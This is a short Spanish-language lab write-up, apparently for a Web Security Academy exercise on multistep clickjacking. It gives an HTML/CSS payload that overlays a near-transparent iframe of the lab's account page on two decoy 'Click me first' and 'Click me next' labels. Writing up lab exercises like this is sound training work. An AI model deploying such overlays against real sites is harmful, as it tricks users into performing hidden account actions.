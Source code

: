 ```yaml
---
layout: default
title: 5 - Multistep clickjacking
---
```

Lo mismo pero clicando dos veces, lo tuve que hacer manual, quizás para hacerlo con clikcbandit había que poner  Click me first" and "Click me next" 


```html
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
        .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:53px;
		z-index: 1;
	}
       .secondClick {
		top:290px;
		left:215px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a45001204020b0181eb260a00d60050.web-security-academy.net/my-account"></iframe>
```
